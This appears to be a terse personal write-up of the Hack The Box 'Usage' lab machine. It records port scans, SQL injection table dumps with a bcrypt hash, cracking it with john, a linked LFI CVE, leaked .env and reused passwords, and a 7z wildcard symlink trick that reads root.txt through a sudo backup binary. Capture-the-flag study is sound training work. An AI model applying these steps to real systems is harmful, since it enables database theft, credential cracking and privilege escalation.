 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/hack-the-box/usage/"}
---
```


# Enum
## Ports
PORT   STATE SERVICE REASON 
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
##  Users
admin:whatever1
### system
dash
xander:`3nc0d3d_pa$$w0rd`
##  Passwords
whatever1
`3nc0d3d_pa$$w0rd`
## OS
`Linux usage 5.15.0-101-generic #111-Ubuntu SMP Tue Mar 5 20:16:58 UTC 2024 x86_64`
Ubuntu 22.04.4 LTS \n \l
## 22
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 a0f8fdd304b807a063dd37dfd7eeca78 (ECDSA)
|_  256 bd22f5287727fb65baf6fd2f10c7828f (ED25519)
## 80
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|http-title: Daily Blogs
|http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
PHP/8.1.2-1ubuntu2.14
|Laravel version|10.18.0|

/MVwt4IDP.php4: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
### Cookie
Cookie XSRF-TOKEN created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
### http://usage.htb/forget-password
Create an account and try to recover the passwd
sqli is posible
# Exploit
## Sqli
Database: usage_blog
[15 tables]
+------------------------+
| admin_menu             |
| admin_operation_log    |
| admin_permissions      |
| admin_role_menu        |
| admin_role_permissions |
| admin_role_users       |
| admin_roles            |
| admin_user_permissions |
| admin_users            |
| blog                   |
| failed_jobs            |
| migrations             |
| password_reset_tokens  |
| personal_access_tokens |
| users                  |
+------------------------+

Database: usage_blog
### Table: admin_users
[8 columns]
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| avatar         | varchar(255) |
| created_at     | timestamp    |
| id             | int unsigned |
| name           | varchar(255) |
| password       | varchar(60)  |
| remember_token | varchar(100) |
| updated_at     | timestamp    |
| username       | varchar(190) 
Database: usage_blog
Table: admin_users
[1 entry]
+----------+
| username |
+----------+
| admin    |
+----------+
| password                                                     |
+--------------------------------------------------------------+
`$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`

### Table: users
[8 columns]
+-------------------+-----------------+
| Column            | Type            |
+-------------------+-----------------+
| created_at        | timestamp       |
| email             | varchar(255)    |
| email_verified_at | timestamp       |
| id                | bigint unsigned |
| name              | varchar(255)    |
| password          | varchar(255)    |
| remember_token    | varchar(100)    |
| updated_at        | timestamp       |
+-------------------+-----------------+
Table: users
[9 entries]
+----------------------+
#### email
+----------------------+
| asd@asd.asd          |
| karkor23@hotmail.com |
| n3vada@usage.htb     |
| raj@raj.com          |
| raj@usage.htb        |
| test@arkane.org      |
| test@test.com        |
| test@tet.com         |
| testtester@test.com  |
+----------------------+
## Crack the hash
`$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`
`john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash`
whatever1
login in the admin page
## Get access
[LFI]
https://flyd.uk/post/cve-2023-24249/
# Escalation
-rwxrwxr-x 1 dash dash 1176 Aug 23  2023 /var/www/html/project_admin/.env
DB_CONNECTION=mysql
1351   │ DB_HOST=127.0.0.1
1352   │ DB_PORT=3306
1353   │ DB_DATABASE=usage_blog
1354   │ DB_USERNAME=staff
1355   │ DB_PASSWORD=s3cr3t_c0d3d_1uth
##  Get access like xander
Using password found in ``**.monitrc**``
## Get root
sudo -l
/usr/bin/usage_management
`ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fdb8c912d98c85eb5970211443440a15d910ce7f, for GNU/Linux 3.2.0, not stripped`

### strings /usr/bin/usage_management
/var/www/html
/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *
Error changing working directory to /var/www/html
/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql

#### 7z wildcard spare
[[Wildcard spare#7z\|Wildcard spare#7z]]
```sh
cd /var/www/html/
touch '@root.txt'
ln -s -r /root/root.txt root.txt
sudo /usr/bin/usage_management #Opcion 1 (Project Backup)
```